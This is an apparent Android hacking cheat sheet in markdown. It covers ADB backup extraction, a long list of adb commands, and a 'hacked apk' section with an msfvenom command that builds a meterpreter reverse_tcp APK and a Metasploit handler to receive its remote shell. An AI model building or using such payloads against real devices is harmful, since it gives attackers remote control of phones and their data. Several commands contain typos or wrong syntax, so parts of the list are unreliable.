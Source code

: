 # Table of Contents
- [backup](#backup)
- [hacked apk](#hacked-apk)
- [adb commands](#adb-commands)

<br>
<br>

# backup
1) create backup file
```
adb backup -apk -shared -all -f ./backup.ab
```
2) decompress ab file
```
(printf "\x1f\x8b\x08\x00\x00\x00\x00\x00";tail -c +25 backup.ab) | tar xvzf -
```

<br>
<br>

# hacked apk
1) create hacked apk  
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.100.102.33 LPORT=4444 R> /root/Desktop/trying.apk
```
then we do this
```
msfconsole 
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <my_ip>
set LPORT <port>
exploit
```

<br>
<br>

# adb commands
1)show devices  
```
adb devices
```
2) open a shell  
```
adb shell
```
3) install app   
```
adb shell install <apk>
```
4) uninstall app  
```
adb shell uninstall <apk>
```
5) list directories   
```
adb shell ls
```
6) print size of each file  
```
adb shell ls -s
```
7) list recursive  
```
adb shell ls -R
```
8) copy file to the phone  
```
adb push <local> <remote>
```
9) copy file from the phone  
```
adb pull <remote> <local>
```
10) access the private package file  
```
run-as <package> cat <file>
```
11) print device state  
```
adb get-state
```
12) print device serial-number  
```
adb get-serialno
```
13) print device imei number  
```
adb shell dumpsys iphonesybinfo
```
14) list tcp  
```
adb shell netstat
```
15) print cwd  
```
abd shell pwd
```
16) list all services  
```
adb shell dumpsys -l
```
17) print battery status  
```
adb shell dumpsys battery
```
18) print phone features  
```
adb shell pm list features
```
19) list services  
```
adb shell service list
```
20) activity info  
```
adb shell dumpsys activity <package>/<activity>
```
21) print process info  
```
adb shell ps
```
22) display screen resolution  
```
adb shell wm size
```
23) print current apps opened activity  
```
dumpsys window windows|grep -E 'mCurrentFocus|mFocusedApp'
```
24) list packages  
```
adb shell list packages
```
25) list packages + path  
```
adb shell list packages -r
```
26) list info on all apps  
```
adb shell dumpsys package packages
```
27) list info on one package  
```
adb shell dump <name>
```
28) find path to apk  
```
adb shell path <package>
```
29) screenshot  
```
adb shell screencap -p <path>
```
30) record screen  
```
adb shell screenrecord <path>
```
31) backup settings apps and shared storage  
```
adb backup -apk -shared -all -f <path>
```
32) restore from backup  
```
adb restore <path>
```
33) open url  
```
adb shell am start -a android.intent.action.VIEW -d <url>
```
34) open gallery 
```
adb shell am start -t image/* -a android.intent.action.VIEW
```
35) view device log  
```
adb logcat
```
36) view device bug report  
```
adb bugreport
```
37) list permission groups  
```
adb shell permissions groups
```
38) list permission details  
```
adb shell list permissions -g -r 
```
39) see cpu and ram usage  
```
adb shell top
```
